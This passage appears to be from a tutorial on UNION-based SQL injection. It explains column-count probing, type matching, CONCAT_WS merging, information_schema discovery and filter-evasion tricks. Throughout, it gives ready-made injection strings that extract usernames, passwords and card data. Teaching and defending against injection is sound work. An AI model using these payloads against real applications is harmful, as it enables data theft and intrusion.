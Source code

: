 #### **Step-by-Step Execution**  

| **Step** | **Action** | **Example** | **Outcome** |  
|----------|-------------|-------------|-------------|  
| **1. Determine Column Count** | Use `ORDER BY` to test column numbers incrementally. | `http://example.com/search?input=' ORDER BY 3--` | If no error, column count ≥3. Continue until an error occurs. |  
| **2. Match Data Types** | Use `NULL` or typecasting to align data types. | `' UNION SELECT NULL, username, NULL, password FROM users--` | `NULL` acts as a placeholder for mismatched data types. |  
| **3. Data Extraction** | Inject the `UNION SELECT` to retrieve data from target tables. | `' UNION SELECT card_number, expiry_date FROM payment_info--` | The application returns stolen data alongside legitimate results. |  

#### **Example Workflow**  
Suppose the original query is:  
```sql  
SELECT product_id, product_name, price FROM products WHERE id = '1';  
```  
An attacker might inject:  
```sql  
' UNION SELECT username, password, NULL FROM users--  
```  
This works only if:  
- The original query has **3 columns** (product_id, product_name, price).  
- The injected query’s columns (username, password, NULL) match the data types (e.g., `VARCHAR`, `VARCHAR`, `NULL`).  

---

### **2. Advanced Techniques**  

#### **Column Merging with CONCAT()**  
When column counts mismatch, attackers use `CONCAT()` to combine fields into a single output column.  

| **Scenario** | **Original Columns** | **Injected Query** | **Result** |  
|--------------|----------------------|--------------------|------------|  
| Column Count Mismatch | 2 columns (id, name) | `' UNION SELECT CONCAT_WS(':', username, password), NULL FROM users--` | Returns `username:password` in the first column. |  

#### **Metadata Discovery**  
Attackers query system tables like `information_schema` to map the database structure:  
```sql  
' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database()--  
```  
This reveals table names and columns, guiding further data extraction.  

#### **Bypassing Filters**  
| **Technique** | **Description** | **Example** |  
|---------------|-----------------|-------------|  
| **Hex Encoding** | Encode strings to bypass keyword detection. | `0x414243` (hex for "ABC") |  
| **Alternative Syntax** | Exploit MySQL’s conditional comments. | `/*!12345 UNION */ SELECT ...` |  
| **String Concatenation** | Split keywords to evade simple filters. | `'UN'+'ION SELECT ...` |  

---